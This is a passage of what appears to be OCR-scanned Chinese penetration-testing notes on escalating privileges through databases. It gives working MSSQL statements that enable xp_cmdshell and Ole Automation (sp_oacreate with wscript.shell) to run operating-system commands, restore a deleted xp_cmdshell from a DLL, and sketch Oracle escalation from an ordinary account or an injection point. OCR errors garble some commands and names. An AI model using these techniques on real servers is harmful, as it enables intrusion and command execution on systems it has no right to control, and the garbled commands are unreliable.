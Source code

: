 关闭:

```
exec sp_configure 'show advanced options', 1;
reconfigure;
exec sp_configure 'xp_cmdshell', 0;
reconfigure;
```

执行:

```
EXEC master.dbo.xp_cmdshell '命今'
```

如果xp_cmdshell被删除了，可以上传xpTog70.dll进行恢复

```
exec master.sys.sp_addextendedproc 'xp_cmdshell'，'C: \Program Files\Microsoft SQL Server\MSSQL\Binn\xp1og70.dll'
```

#### 2.使用sp_oacreate进行提权

主要是用来调用OLE对象，利用OLE对象的run方法执行系统命令。
启用:

```
EXEC sp_configure ' show advanced options', 1;
RECONFIGURE WITH OVERRIDE;
EXEC sp_configure 'Ole Automation Procedures', 1;
RECONFIGURE WITH OVERRIDE;
```

关闭:

```
EXEC sp_configure ' show advanced options', 1;
RECONFIGURE WITH OVERRIDE;
EXEC sp_configure 'Ole Automation Procedures', 0;
RECONFIGURE WITH OVERRIDE;
```

执行:

```
declare @shell int exec sp_oacreate 'wscript.shell' , @she1l output exec sp_oamethod @shell, ' run',null, 'c:\windows\system32\cmd.exe /c whoami >c:\\1.txt'
```

### oracle

普通用户模式:
前提是拥有一个普通的oracle连接账号，不需要DBA权限，可提权至DBA，并以oracle实例运行的权限执行操作系统命令。
DBA用户模式: (自动化工具演示)
拥有DBA账号密码，可以省去自己手动创建存储过程的繁琐步骤，一键执行测试。
注入提升模式: (=qlmap测试演示)
拥有一个oracle注入点，可以通过注入点直接执行系统命令，此种模式没有实现回
显，需要自己验证。
